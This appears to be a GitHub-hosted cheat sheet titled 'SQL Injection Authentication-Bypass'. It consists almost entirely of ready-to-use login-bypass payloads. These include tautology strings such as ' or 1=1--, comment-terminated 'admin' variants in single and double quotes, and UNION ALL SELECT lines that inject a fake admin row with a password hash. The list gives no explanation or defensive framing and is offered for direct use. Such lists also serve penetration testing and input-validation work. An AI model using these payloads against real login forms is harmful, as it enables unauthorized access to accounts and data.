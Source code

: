 # SQL Injection Authentication-Bypass (Cheat Sheet)

``` or 1=1 ```

``` or 1=1-- ``` 

``` or 1=1# ```

``` or 1=1/* ```

``` admin' -- ``` 
``` admin' # ``` 
``` admin'/* ``` 
``` admin' or '1'='1 ``` 
``` admin' or '1'='1'-- ``` 
``` admin' or '1'='1'# ``` 
``` admin' or '1'='1'/* ``` 
``` admin'or 1=1 or ''=' ```
``` admin' or 1=1 ```
``` admin' or 1=1-- ```
``` admin' or 1=1# ```
``` admin' or 1=1/* ```
``` admin') or ('1'='1 ```
``` admin') or ('1'='1'-- ```
``` admin') or ('1'='1'# ```
``` admin') or ('1'='1'/* ```
``` admin') or '1'='1 ```
``` admin') or '1'='1'-- ```
``` admin') or '1'='1'# ```
``` admin') or '1'='1'/* ```
``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```
``` admin" -- ```
``` admin" # ```
``` admin"/* ```
``` admin" or "1"="1 ```
``` admin" or "1"="1"-- ```
``` admin" or "1"="1"# ```
``` admin" or "1"="1"/* ```
``` admin"or 1=1 or ""=" ```
``` admin" or 1=1 ```
``` admin" or 1=1-- ```
``` admin" or 1=1# ```
``` admin" or 1=1/* ```
``` admin") or ("1"="1 ```
``` admin") or ("1"="1"-- ```
``` admin") or ("1"="1"# ```
``` admin") or ("1"="1"/* ```
``` admin") or "1"="1 ```
``` admin") or "1"="1"-- ```
``` admin") or "1"="1"# ```
``` admin") or "1"="1"/* ```
``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
